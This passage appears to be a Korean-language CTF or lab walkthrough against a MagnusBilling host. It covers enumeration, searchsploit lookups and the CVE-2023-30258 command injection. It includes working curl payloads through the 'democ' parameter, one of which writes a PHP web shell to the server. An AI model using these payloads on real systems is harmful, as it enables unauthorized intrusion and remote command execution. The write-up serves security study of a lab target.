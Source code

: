 - Asterisk Call Manager/2.10.6 실행 중
- 기본 크리덴셜 시도: admin/admin → 인증 실패

**사용한 netcat 옵션:**

- `-n`: DNS 조회 비활성화 (속도 향상)
- `-v`: verbose 모드 (연결 상태 출력)

## 🔎 3단계: 취약점 조사

### Asterisk 취약점 검색

```bash
searchsploit Asterisk
```

**결과**: 다수의 DoS 취약점 발견되었으나 원격 코드 실행 취약점은 제한적

### MagnusBilling 취약점 검색

```bash
searchsploit magnus
```

**🚨 중요 발견**: CVE-2023-30258 - Command Injection 취약점

- **파일**: `/usr/share/exploitdb/exploits/multiple/webapps/52170.txt`
- **영향 버전**: MagnusBilling 7.3.0
- **취약점 유형**: 명령어 주입 (Command Injection)

## 💥 4단계: 발견된 취약점 분석

### CVE-2023-30258 상세 정보

**취약한 엔드포인트:**

```
/lib/icepay/icepay.php?democ=<payload>
```

**PoC (Proof of Concept):**

```bash
# 기본 명령어 주입 테스트
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=zzz.php;"
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=zzz.php%3Becho%20%27<?php%20system(%24_GET%5B%22cmd%22%5D);%20?>%27%20%3E%20zzz.php"

# %3B는 세미콜론(;)의 URL 인코딩
# 세미콜론으로 명령어를 체인화하여 추가 명령 실행 가능
```

## 🚫 현재 직면한 문제들

1. **연결 문제**: 일부 curl/gobuster 명령에서 연결 거부 발생
